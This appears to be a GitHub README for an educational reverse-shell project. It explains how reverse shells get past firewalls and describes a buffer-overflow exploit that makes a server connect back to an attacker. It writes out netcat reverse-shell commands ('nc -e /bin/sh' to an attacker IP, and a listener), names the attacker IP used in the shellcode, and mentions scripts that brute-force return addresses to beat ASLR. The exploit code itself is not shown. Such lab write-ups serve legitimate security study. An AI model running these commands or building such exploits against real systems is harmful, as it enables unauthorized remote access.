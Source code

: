 # ReverseShell
Reverse Shell- In systems where a firewall in place blocks incoming remote connection requests, organisations support establishing remote connections from the system to the outside world. 

Attackers make use of this functionality to fail the protection provided by firewall.

Reverse shell can be established in many ways. It is essentially a tcp connection over a process which in this case would be any shell bash,dash,sh, or zsh.

We can use netcat, perl, python, bash to create a reverse shell.

I have used a shellcode to exploit a buffer overflow vulnerability in a server program listening to TCP connections. First, I wrote an assembly program to establish a reverse shell, converted it to a bytecode and overflew the buffer to make the server make a connection to the attackers ip address listening over some port.

Netcat commands to establish a reverse shell :
Victim PC: (Inside the protection of firewall) "nc -e /bin/sh <attacker_ip> <port>"
Attacker pc: "nc -nlvp <port>"
{First try executing these commands in two different shell windows and see if you could execute shell commands inside attackers shell} 
  
Now keep the attackers PC listening over some port and exploit the buffer overflow vulnerability in the server program to make it connect to the attackers PC.

Code:
myattempt.s (Assembly code to execute "nc -e /bin/sh 192.168.156.3 4440")(Find and replace the ip_address with desired value in the assembly code. Do not forget to convert it to hex.)
Convert linked and loaded assembly code to bytecode.
exploit.py : Python exploit code to connect to and exploit the server vulnerability
finalexp.py : To run the exploit code with different return addresses to beat ASLR.


 

